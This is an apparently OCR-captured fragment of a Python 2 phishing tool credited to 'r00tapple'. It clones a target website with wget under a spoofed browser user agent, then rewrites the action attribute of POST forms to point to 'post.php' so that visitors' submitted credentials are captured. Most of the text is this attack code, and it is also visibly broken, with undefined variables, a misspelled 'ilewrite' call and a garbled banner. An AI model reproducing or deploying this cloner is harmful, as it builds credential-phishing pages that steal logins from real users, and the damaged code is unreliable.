 ```
    site = "index.html"
    with open(clonesite, "r") as rf:
        doc = html.parse(rf).getroot()
        html.make_links_absolute(doc, base)
    fileopen=file("/clone/index.html","r").readlines()
    filewrite=file(fullpath,"w")
    try:
        for line in fileopen:
            counter=0
            match=re.search('post',line, flags=re.IGNORECASE)
            method_post=re.search("method=post", line, flags=re.IGNORECASE)
            if match or method_post:
                line = re.sub('action="*"', 'action="post.php"', line)
            filewrite.write(line)
	print "action attribute it was rewritten to post.php.."
    except:
	print "file write error.."
    finally:
        filewrite.close()

def clone(url):
    user_agent = "Mozilla/5.0 (Windows; Intel Mac OS X) Chrome/45.0.2454.101 Safari/537.36"
    try:
            wget = 0
            if os.path.isfile("/usr/local/bin/wget"):
                wget = 1
                
            if os.path.isfile("/usr/bin/wget"):
                wget = 1

            if os.path.isfile("/usr/local/wget"):
                wget = 1

            if wget == 1:
                subprocess.Popen('cd %s;wget --no-check-certificate -O index.html -c -k -U "%s" "%s";' % (setdir,user_agent,url), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True).wait()
            if wget == 0:
                headers = { 'User-Agent' : user_agent }
                req = urllib2.Request(url, None, headers)
                html = urllib2.urlopen(req).read()
                if len(html) > 1:
                    try:
                        filewrite = file(setdir + "/index.html", "w")
                        filewrite.write(html)
                    except:
                        print "index.html write error"
                    finally:
                        ilewrite.close()

    except:
        print "Sorry error to be continue .."
        pass



if __name__ == '__main__':
    print """
###############################################
#The python script that web site also was set #
#to be the creation of the link relative path #
#for r00tapple 				      #
###############################################
    """
```